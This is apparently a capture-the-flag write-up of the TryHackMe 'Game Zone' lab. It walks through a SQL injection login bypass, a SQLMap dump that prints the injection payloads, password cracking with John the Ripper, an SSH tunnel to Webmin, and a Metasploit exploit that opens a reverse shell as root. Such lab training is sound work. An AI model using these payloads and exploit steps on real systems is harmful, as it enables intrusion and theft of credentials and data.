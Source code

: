 ```yaml
---
layout: post
title: THM — Game Zone
date: 2022-09-29 01:00:00 -500
categories: [TryHackMe]
tags: [SQLi, SQLMap, JohnTheRipper, SSH Tunnel]
---
```


<img src="/assets/images/GameZone/logo.png" alt="GameZone Logo" width="30%">

***
<center><strong><font color="White">This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.</font></strong></center>

***

## <strong><font color="#34A5DA">Nmap Scan</font></strong>

```console
vladislav@Mac ~ % nmap -sV -sC 10.10.76.150 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-29 18:51 MSK
Nmap scan report for 10.10.76.150
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61ea89f1d4a7dca550f76d89c3af0b03 (RSA)
|   256 b37d72461ed341b66a911516c94aa5fa (ECDSA)
|_  256 536709dcfffb3a3efbfecfd86d4127ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.30 seconds
```

## <strong><font color="#34A5DA">Obtain access via SQLi</font></strong>

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use ' or 1=1 -- - as your username and leave the password blank.

However, that doesn't work. We can try changing `--` to `#`. That works!

<img src="/assets/images/GameZone/1.png" alt="GameZone Portal" width="50%">

> When you've logged in, what page do you get redirected to? `portal.php`

***

## <strong><font color="#34A5DA">Using SQLMap</font></strong>

<img src="/assets/images/GameZone/SQLMap%20Logo.png" alt="GameZone Portal" width="25%">

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using BurpSuite:

```http
POST /portal.php HTTP/1.1
Host: 10.10.76.150
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.76.150
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.76.150/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=stf6k27hlldnk3bbi7890ohuo7
Connection: close

searchitem=a
```

Save this request into a text file (`request.txt`). We can then pass this into SQLMap to use our authenticated user session.

Then run the following:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

Parameters used:
* `-r` — uses the intercepted request we saved earlier
* `--dbms` — tells SQLMap what type of database management system it is
* `--dump` — attemps to outputs the entire database

```console
vladislav@Mac ~ % sqlmap -r request.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:28:54 /2022-09-29/

[18:28:54] [INFO] parsing HTTP request from 'request.txt'
[18:28:54] [INFO] testing connection to the target URL
[18:28:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:28:54] [INFO] testing if the target URL content is stable
[18:28:54] [INFO] target URL content is stable
[18:28:54] [INFO] testing if POST parameter 'searchitem' is dynamic
[18:28:54] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[18:28:54] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[18:28:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[18:28:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
y
[18:30:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:30:27] [WARNING] reflective value(s) found and filtering out
[18:30:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:30:28] [INFO] testing 'Generic inline queries'
[18:30:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="is")
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:30:34] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[18:30:34] [INFO] testing 'MySQL inline queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:30:45] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:30:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:30:45] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:30:45] [INFO] target URL appears to have 3 columns in query
[18:30:46] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:30:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-6208' OR 5467=5467#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=a' AND GTID_SUBSET(CONCAT(0x71717a6a71,(SELECT (ELT(8617=8617,1))),0x71766b7071),8617)-- EjRl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=a' AND (SELECT 7610 FROM (SELECT(SLEEP(5)))yuoi)-- kJeA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=a' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6a71,0x6e59474c4a676d687048576b68674e72575948747041536e424470794d4269596f70684e53774e55,0x71766b7071)#
---
[18:32:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[18:32:05] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:32:05] [INFO] fetching current database
[18:32:05] [INFO] fetching tables for database: 'db'
[18:32:05] [INFO] fetching columns for table 'post' in database 'db'
[18:32:06] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[18:32:06] [INFO] table 'db.post' dumped to CSV file '/Users/vladislav/.local/share/sqlmap/output/10.10.76.150/dump/db/post.csv'
[18:32:06] [INFO] fetching columns for table 'users' in database 'db'
[18:32:06] [INFO] fetching entries for table 'users' in database 'db'
[18:32:06] [INFO] recognized possible password hashes in column 'pwd'
```

We got the dump of table `post`.

After that we get dump of table `users`:

```console
[18:34:29] [WARNING] no clear password(s) found                                
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+


```

> In the users table, what is the hashed password? `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password? `agent47`

> What was the other table name? `post`

***

## <strong><font color="#34A5DA">Cracking a password with JohnTheRipper</font></strong>

<img src="/assets/images/GameZone/JtR.png" alt="JohnTheRipper Logo" width="20%">

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

***

First save the hash as a file (`hash`). Now let's use JohnTheRipper to crack the password hash:

(John will advise formats if we run the below command without `--format=...`)

```bash
john hash --wordlist=share/wordlists/rockyou.txt --format="Raw-SHA256"
```

Parameters:
* `hash` — contains a list of our hashes (however, in our case only 1)
* `--wordlist` — is the wordlist we're using to find the dehashed value
* `--format` — is the hashing algorithm used. In our case its hashed using SHA256.

After cracking we can see the pass:
```console
vladislav@Mac ~ % john hash --show --format="Raw-SHA256"  
?:videogamer124

1 password hash cracked, 0 left
```

> What is the de-hashed password? `videogamer124`

Now, once we have username `agent47` and password `videogamer124`, we can try to SSH into the machine.

```bash
ssh agent47@10.10.76.150
videogamer124
```

> What is the user flag? `649ac17b1480ac13ef1e4fa579dac95c`

***

## <strong><font color="#34A5DA">Exposing services with reverse SSH tunnels</font></strong>

<img src="/assets/images/GameZone/reverse_ssh.png" alt="JohnTheRipper Logo" width="70%">

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

`-L` is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to `localhost:9000` on your machine, will load imgur traffic using your other server.

`-R` is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

We will use a tool called `ss` to investigate sockets running on a host.

If we run `ss -tulpn` it will tell us what socket connections are running

```console
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q                                                                             Local Address:Port                                                                                            Peer Address:Port              
udp    UNCONN     0      0                                                                                              *:10000                                                                                                      *:*                  
udp    UNCONN     0      0                                                                                              *:68                                                                                                         *:*                  
tcp    LISTEN     0      80                                                                                     127.0.0.1:3306                                                                                                       *:*                  
tcp    LISTEN     0      128                                                                                            *:10000                                                                                                      *:*                  
tcp    LISTEN     0      128                                                                                            *:22                                                                                                         *:*                  
tcp    LISTEN     0      128                                                                                           :::80                                                                                                        :::*                  
tcp    LISTEN     0      128                                                                                           :::22                                                                                                        :::*                  
```

| Argument | Description                        |
|----------|------------------------------------|
| `-t`     | Display TCP sockets                |
| `-u`     | Display UDP sockets                |
| `-l`     | Displays only listening sockets    |
| `-p`     | Shows the process using the socket |
| `-n`     | Doesn't resolve service names      |

> How many TCP sockets are running? `5`

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```

Once complete, in your browser type `localhost:10000` and you can access the newly-exposed webserver.

<img src="/assets/images/GameZone/reverse_ssh_site.png" alt="JohnTheRipper Logo" width="100%">

> What is the name of the exposed CMS? `Webmin`

We can log into the exposed CMS with the same credentials.

> What is the CMS version? `1.580`

***

## <strong><font color="#34A5DA">Privilege Escalation with Metasploit</font></strong>

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

***

On [exploit-db.com](https://www.exploit-db.com) we can find an [exploit](https://www.exploit-db.com/exploits/21851).

Msfconsole:
xw
```console
msf6 > use exploit/unix/webapp/webmin_show_cgi_exec
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD payload/cmd/unix/reverse
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.18.7.222
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.18.7.222:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo KACyihBCsCfJt23r;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "KACyihBCsCfJt23r\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.18.7.222:4444 -> 10.10.76.150:42686) at 2022-09-29 19:31:04 +0300

whoami
root
```

Find the flag:

```bash
cd /root
cat root.txt
```

> What is the root flag? `a4b945830144bdd71908d12d902adeee`